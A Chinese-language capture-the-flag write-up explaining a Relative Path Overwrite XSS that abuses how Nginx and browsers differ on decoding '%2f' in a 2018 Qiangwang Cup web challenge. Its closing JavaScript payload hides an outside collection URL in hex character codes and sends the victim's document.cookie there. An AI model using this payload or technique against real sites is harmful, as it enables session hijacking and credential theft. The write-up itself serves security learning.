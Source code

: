 ```yaml
---
title: "强网杯中出现的 RPO 导致的 XSS"
date: 2018-03-25 22:28:25
tags: [writeup, web]
---
```


注意这里是 RPO (Relative Path Overwrite) 相对路径覆盖不是 PRO, 主要是利用 Nginx 服务端和客户端对 `%2f` 解析的差异.  
PS. 也就是说 Apache 是不会出现这个问题的, 它跟浏览器一样将 `%2f` 解析成名称的一部分而不是 `/` .  

<!-- more -->

Nginx 服务端可以正确识别 `%2f` 并将其解析成 `/` , 比如访问 `http://www.test.com/test/test2/..%2f..` , Nginx 会解析成`http://www.test.com/test1/test2/../..`, 最后服务端会返回 `http://www.test.com/` 的数据, 但客户端也就是浏览器, 不会解析 `%2f` 而是将其解析成 `http://www.test.com/test1/test2/..%2f..` , 将 `..%2f..` 当成一个在 `test1/test2/` 下的文件名. 这就造成了 xss 漏洞. 可以看到在 `http://39.107.33.96:20000/index.php` 中, 有一些相对路径的 `js` 文件, 如 `./jquery.min.js`.  
同时在本题中我们可以控制在 `http://39.107.33.96:20000/index.php/view/article/xxx/` 中的内容, 所以我们可以构造 `http://39.107.33.96:20000/index.php/view/article/xxx/..%2f..%2f..` 让 bot 访问.  
服务器返回的是 `http://39.107.33.96:20000/index.php` 的内容, 但浏览器加载的 `./jquery.min.js` 实际是`http://39.107.33.96:20000/index.php/view/article/xxx/jquery.min.js`, 同时这里 `/article/xxx/jquery.min.js` 被 rewrite 到了 `/article/xxx/`, 使 js 文件可控, 即导致了 xss 注入. 但这里服务器开了 `htmlspecialchars` , 同时开启了单引号转义, 最坑的是 phantomjs 不支持 ` 号. 想了半天用了 jsFuck, 又遇到了长度限制 1000, 而 jsFuck 长度随便就可以上万, 最后想到了可以从 ascii 中恢复字符串.
```js
var a=String.fromCharCode(0x68,0x74,0x74,0x70,0x3a,0x2f,0x2f,0x78,0x73,0x73,0x2e,0x72,0x6d,0x62,0x31,0x32,0x32,0x2e,0x63,0x6e,0x2f,0x3f,0x61,0x3d);
window.location.href=(a+document.cookie);
```
提交, 成功 get 到下一步. 
然后我就不会了 233, 听大佬们说要用 iframe , 然而压根没听过, 不过至少学了一手  RPO , 还不错.